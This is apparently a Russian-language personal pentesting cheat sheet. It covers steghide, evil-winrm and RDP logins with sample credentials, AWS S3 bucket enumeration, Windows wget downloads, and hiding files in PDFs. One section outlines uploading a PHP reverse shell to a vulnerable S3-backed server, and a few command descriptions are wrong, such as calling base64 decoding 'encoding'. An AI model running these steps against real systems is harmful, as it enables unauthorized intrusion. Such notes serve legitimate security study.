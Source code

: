 **`xdg-open`** - позволяет открыть файл ( например картинку ) или URL в предпочтительном для него окружении.
**`steghide`** - ищет закодированный текст в нетекстовых файлах ( например картинках )
> ``` 
> steghide --info image.jpg
> steghide extract -sf image.jpg
> ```

**`ltrase`** - читает бинарные файлы как cat 

## Удалённая авторизация
### evil-winrm
`evil-winrm` - подключиться к удаённому хосту windows. пример:

``` 
evil-winrm -i <ip> -u <username> -p <userpassword>
```
пример с windows:
```
evil-winrm -u 'CODEBY\dsemenov' -p '!!!!ilovegood17' -i 192.168.2.4
```
где `CODEBY\dsemenov` - {windows domain}\\{userdomain}
### impacket
[[impacket]]
## xfreerdp
Подключение к windows по протоколу RDP:
```
xfreerdp /u:username /p:"password" /v:"IP"
y
```
 
## WEB

### [[Responder]]

### AWS
Существует саб-домин - **s3**. Это облачное хранилище для вещей в контейнерах. Корзины **AWS S3** имеют различные сценарии использования, включая резервное копирование и хранение, хостинг мультимедиа, доставку программного обеспечения, статический веб-сайт и тд. Файлы, хранящиеся в корзине Amazon S3, называются объектами S3.
**`awscli`** позволяет взаимодействовать с этой корзиной.
```
aws configure # первоначальная настройка. Можно установить значения temp.
```
Мы можем перечислить все корзины S3, размещенные на сервере, с помощью команды ls:
```
aws --endpoint=http://s3.<url> s3 ls
```
Мы также можем использовать команду ls для перечисления объектов и общих префиксов в указанном бакете.
```
aws --endpoint=http://s3.<url> s3 ls s3://<url>
```
Далее можно создать файл и иньекцией:
```
php_reverse_shell > shell.php
```
и загрузить его на уязвимый сервер:
```
aws --endpoint=http://s3.<url> s3 cp shell.php s3://<url>
```
### WGET
чтобы скачать что-то на windows, необходимо использовать следующий синтаксис:
```
wget http://<IP/URL>/<file> -outfile <file>
```

### CURL
```
curl -sX POST <url> # чтобы сделать POST запрос 
```
## Encrypt
`based64 -d <text>` - перевести текст в based64 кодировку.

## PDF
Чтобы создать PDF файл и внедрить в него какие-то данные:
``` 
qpdf --empty --add-attachment <some file to implement> --mimetype=text/plain -- <name created file>
```
Извлечь ранее внедрённый в PDF файл:
```
binwalk -Me <file>
```
##### Открыть PDF
```
evince file.pdf
```